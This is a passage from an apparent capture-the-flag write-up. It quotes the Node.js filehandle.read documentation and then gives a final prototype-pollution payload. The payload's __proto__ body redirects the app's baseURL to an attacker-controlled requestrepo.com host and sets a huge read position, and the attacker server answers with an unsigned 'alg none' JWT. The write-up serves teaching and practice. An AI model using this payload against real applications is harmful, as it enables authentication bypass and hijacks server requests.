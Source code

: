 ```
filehandle.read([options])

Added in: v13.11.0, v12.17.0

- options <Object>
	- buffer <Buffer> | <TypedArray> | <DataView> A buffer that will be filled with the file data read. Default: Buffer.alloc(16384)
	- offset <integer> The location in the buffer at which to start filling. Default: 0
	- length <integer> The number of bytes to read. Default: buffer.byteLength - offset
	- position <integer> | <null> The location where to begin reading data from the file. If null, data will be read from the current file position, and the position will be updated. If position is an integer, the current file position will remain unchanged. Default:: null

- Returns: <Promise> Fulfills upon success with an object with two properties:
	- bytesRead <integer> The number of bytes read
	- buffer <Buffer> | <TypedArray> | <DataView> A reference to the passed in buffer argument.

Reads data from the file and stores that in the given buffer.

If the file is not modified concurrently, the end-of-file is reached when the number of bytes read is zero.
```

If we pollute `position` to 999999999999 (larger than the file size), then no bytes will be read and `x.buffer.toString()` will simply be empty, and we can get the flag! Final payloads:

Body:

```json
{
	"__proto__": {
		"baseURL": "https://x1esf89l.requestrepo.com",
		"position": 999999999999
	},
	"meat": {
		"Hamburger": 0,
		"BigMac": 0,
		"Cheeseburger": 0
	},
	"chicken": {
		"ChickenBurger": 0
	},
	"potato": {
		"Fries": 0,
		"Coca-Cola": 0
	}
}
```

Attacker server response:

```json
{
	"success": true,
	"jwt": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJtZWF0Ijp7IkJpZ01hYyI6MX0sImNoaWNrZW4iOnt9LCJwb3RhdG8iOnt9fQ."
}
```